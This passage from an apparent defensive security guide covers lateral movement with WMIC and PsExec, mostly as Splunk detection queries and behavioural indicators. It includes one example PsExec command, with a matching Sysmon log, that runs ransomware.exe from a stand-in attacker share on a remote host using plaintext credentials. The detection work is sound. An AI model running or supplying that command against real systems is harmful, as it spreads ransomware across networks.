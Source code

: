 ```shell
psexec \\192.168.1.10 -u admin -p password cmd.exe /c \\attacker_ip\ransomware.exe
```

3. **Log Entry (Sysmon Event ID 1)**:

```
Image: C:\Windows\PSEXESVC.exe
CommandLine: cmd.exe /c \\attacker_ip\ransomware.exe
User: admin
Network: 192.168.1.10 -> attacker_ip
```

---

### **4. Detection Techniques**

#### **4.1 WMIC Detections**

- **Hunting WMIC Usage**:

- Look for command-line invocations of `wmic process call create`:

```sql
index=windows EventCode=4688 CommandLine="wmic process call create*"
```

- **Unusual Remote Node Activity**:

- Investigate connections to uncommon systems using WMI.

#### **4.2 PsExec Detections**

- **Monitoring PsExec Activity**:

- Detect suspicious instances of `PSEXESVC` service on endpoints.

```sql
index=windows EventCode=7045 ServiceName="PSEXESVC"
```

- **Fileless Execution**:

- Query for `powershell.exe` being invoked with PsExec:

```sql
index=windows EventCode=4688 CommandLine="powershell.exe*" Image="*PSEXESVC.exe"
```

#### **4.3 Behavioral Indicators**

- **Unexpected Process Tree**:
- Example: `wmic.exe -> cmd.exe -> powershell.exe`.
- **Network Anomalies**:
- Connections from one internal system to many others in quick succession.

---

### **5. Mitigation Strategies**
